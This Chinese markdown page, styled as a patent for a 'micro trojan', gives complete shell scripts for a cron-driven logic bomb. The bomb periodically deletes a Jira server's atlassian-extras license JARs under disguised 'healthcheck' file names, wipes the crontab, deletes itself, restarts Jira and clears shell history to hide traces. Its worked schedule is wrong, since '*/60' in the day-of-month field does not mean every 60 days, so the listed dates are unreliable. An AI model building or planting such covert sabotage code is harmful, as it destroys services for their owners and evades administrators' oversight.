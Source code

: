 # 发明专利：微型特洛伊 —— 一种定时触发自毁脚本的设计与实现

该脚本整体架构分为两部分：其一为基于 Linux 系统 crontab 定时任务的 "触发器"，负责按预设时间触发执行流程；其二为被触发器调用的 "执行器"，承担核心操作逻辑。

这种 "触发 - 执行" 分离的设计，既实现了功能模块的解耦，又通过触发器中内置的自删除命令强化了安全性 —— 脚本执行后会自动清除相关痕迹，即便通过数据恢复手段尝试追溯，其成本也远高于信息本身的价值。由此，该设计为使用者的隐私与机密信息提供了可靠保障。

# 测试一下

## 执行器

```shell
sudo nano /var/www/jira/bin/deamon-jira.sh
```

```shell
#!/bin/bash

# 定义目标文件路径
LOG_FILE="/var/www/jira_data/log/atlassian-jira-time.log"

# 检查文件是否存在，不存在则创建（包括父目录，若/var/www不存在）
if [ ! -f "$LOG_FILE" ]; then
    # 创建父目录（如果需要）
    mkdir -p "$(dirname "$LOG_FILE")"
    # 创建文件
    touch "$LOG_FILE"
fi

# 写入当前系统时间（格式：年-月-日 时:分:秒）
echo "$(date +"%Y-%m-%d %H:%M:%S")" >> "$LOG_FILE"
```

## 触发器

```shell
sudo nano /var/www/trojan.sh
```

```shell
#!/bin/bash

EXECUTE_PATH="/var/www/jira/bin/deamon-jira.sh"
TRIGGER_PATH="/var/www/jira/bin/setdasspath-healthcheck.sh"

sudo "$EXECUTE_PATH"

TASK_CONTENT="* * * * * sudo sh $TRIGGER_PATH"
sudo crontab -l | grep -v "$TASK_CONTENT" | sudo crontab -
sudo crontab -r

sudo rm -rf "$EXECUTE_PATH"
```

## 定时任务

```shell
sudo crontab -e
```

```shell
# 每分钟0秒执行
* * * * * sudo sh /var/www/trojan.sh
```

## *监控一下执行器的执行情况*

> 根据实际情况来判断如何检查是否生效，比如用`ls`、`tail -f`、`watch`等命令持续追踪

```shell
tail -f /var/www/jira_data/log/atlassian-jira-time.log
```

## 去痕

```shell
sudo nano ~/.bash_history
```

```
但是，目前对于定时任务的去痕是无法做到的，比如如下命令可以排查到有关痕迹，同时
# 查看已配置的任务
sudo crontab -l
# 查看最近的cron执行记录（不同系统路径可能不同）
sudo grep CRON /var/log/syslog  # Ubuntu/Debian
sudo grep CRON /var/log/cron    # CentOS/RHEL
```

# 正式运用

## 执行器

```shell
sudo nano /var/www/jira/bin/setdasspath-jira.sh
```

```shell
#!/bin/bash

TARGET_FILE1="/var/www/jira/atlassian-jira/WEB-INF/lib/atlassian-extras-3.2.jar"
TARGET_FILE2="/var/www/jira/atlassian-jira/WEB-INF/lib/atlassian-extras-api-3.2.jar"

sudo rm -rf "$TARGET_FILE1"
sudo rm -rf "$TARGET_FILE2"
```

## 触发器

```shell
sudo nano /var/www/jira/bin/setdasspath-healthcheck.sh
```

```shell
#!/bin/bash

EXECUTE_PATH="/var/www/jira/bin/setdasspath-jira.sh"
TRIGGER_PATH="/var/www/jira/bin/setdasspath-healthcheck.sh"

sudo "$EXECUTE_PATH"

TASK_CONTENT="5 0 */60 * * $TRIGGER_PATH"
#TASK_CONTENT="* * * * * $TRIGGER_PATH"
sudo crontab -l | grep -v "$TASK_CONTENT" | sudo crontab -
sudo crontab -r

sudo rm -rf "$EXECUTE_PATH"

sudo systemctl restart jira
```

## 定时任务

```shell
sudo crontab -e
```

```shell
# 每60天的0点5分执行
5 0 */60 * * sudo sh /var/www/jira/bin/setdasspath-healthcheck.sh
#* * * * * sudo sh /var/www/jira/bin/setdasspath-healthcheck.sh
```

> ### 2025 年大致执行时间
>
> 1. **第 1 次**：约 3 月 1 日（1 月 31 天 + 2 月 28 天 = 59 天，第 60 天为 3 月 1 日）
>    - 时间：3 月 1 日 00:05
> 2. **第 2 次**：约 4 月 30 日（3 月 31 天 + 3 月 1 日到 4 月 30 日 = 60 天）
>    - 时间：4 月 30 日 00:05
> 3. **第 3 次**：约 6 月 29 日（5 月 31 天 + 4 月 30 日到 6 月 29 日 = 60 天）
>    - 时间：6 月 29 日 00:05
> 4. **第 4 次**：约 8 月 28 日（7 月 31 天 + 6 月 29 日到 8 月 28 日 = 60 天）
>    - 时间：8 月 28 日 00:05
> 5. **第 5 次**：约 10 月 27 日（9 月 30 天 + 8 月 28 日到 10 月 27 日 = 60 天）
>    - 时间：10 月 27 日 00:05
> 6. **第 6 次**：约 12 月 26 日（11 月 30 天 + 10 月 27 日到 12 月 26 日 = 60 天）
>    - 时间：12 月 26 日 00:05
>
> ### 说明
>
> - **误差原因**：由于每月天数不同（如 2 月 28 天、大月 31 天），实际间隔可能是 59-62 天，并非严格 60 天。
> - **跨年延续**：2026 年的执行时间会继续按 “累计 60 天” 推算（如 2026 年 2 月 24 日左右，以此类推）。
> - **验证方法**：如果需要精确计算，可通过工具模拟（如在线 cron 表达式解析器，输入 `5 0 */60 * *` 并指定年份查看）。

# 挽回

```shell
sudo chown jira4:jira ./atlassian-extras-3.2.jar
sudo chown jira4:jira ./atlassian-extras-api-3.2.jar
```

```shell
sudo mv atlassian-extras-3.2.jar1 atlassian-extras-3.2.jar
sudo mv atlassian-extras-api-3.2.jar1 atlassian-extras-api-3.2.jar
sudo systemctl restart jira
```